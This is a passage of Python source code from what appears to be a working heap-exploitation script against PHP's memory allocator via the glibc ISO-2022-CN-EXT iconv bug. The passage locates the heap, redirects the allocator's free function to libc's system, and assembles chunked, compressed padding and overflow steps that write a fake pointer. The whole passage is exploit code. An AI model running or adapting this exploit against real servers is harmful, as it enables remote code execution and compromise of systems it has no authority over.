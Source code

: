 ~~~ python
            msg_info(f"Using [i]{hex(first)}[/] as heap")

        return first

    def run(self) -> None:
        #self.check_vulnerable()
        self.get_symbols_and_addresses()
        self.exploit()

    def build_exploit_path(self) -> str:
    
        LIBC = self.info["libc"]
        ADDR_EMALLOC = LIBC.symbols["__libc_malloc"]
        ADDR_EFREE = LIBC.symbols["__libc_system"]
        ADDR_EREALLOC = LIBC.symbols["__libc_realloc"]

        ADDR_HEAP = self.info["heap"]
        ADDR_FREE_SLOT = ADDR_HEAP + 0x20
        ADDR_CUSTOM_HEAP = ADDR_HEAP + 0x0168

        ADDR_FAKE_BIN = ADDR_FREE_SLOT - 0x10

        CS = 0x100

        # Pad needs to stay at size 0x100 at every step
        pad_size = CS - 0x18
        pad = b"\x00" * pad_size
        pad = chunked_chunk(pad, len(pad) + 6)
        pad = chunked_chunk(pad, len(pad) + 6)
        pad = chunked_chunk(pad, len(pad) + 6)
        pad = compressed_bucket(pad)

        step1_size = 1
        step1 = b"\x00" * step1_size
        step1 = chunked_chunk(step1)
        step1 = chunked_chunk(step1)
        step1 = chunked_chunk(step1, CS)
        step1 = compressed_bucket(step1)
        
        # Since these chunks contain non-UTF-8 chars, we cannot let it get converted to
        # ISO-2022-CN-EXT. We add a `0\n` that makes the 4th and last dechunk "crash"
        step2_size = 0x48
        step2 = b"\x00" * (step2_size + 8)
        step2 = chunked_chunk(step2, CS)
        step2 = chunked_chunk(step2)
        step2 = compressed_bucket(step2)

        step2_write_ptr = b"0\n".ljust(step2_size, b"\x00") + p64(ADDR_FAKE_BIN)
        step2_write_ptr = chunked_chunk(step2_write_ptr, CS)
        step2_write_ptr = chunked_chunk(step2_write_ptr)
        step2_write_ptr = compressed_bucket(step2_write_ptr)

        step3_size = CS

        step3 = b"\x00" * step3_size
        assert len(step3) == CS
        step3 = chunked_chunk(step3)
        step3 = chunked_chunk(step3)
        step3 = chunked_chunk(step3)
        step3 = compressed_bucket(step3)

        step3_overflow = b"\x00" * (step3_size - len(BUG)) + BUG
        assert len(step3_overflow) == CS
~~~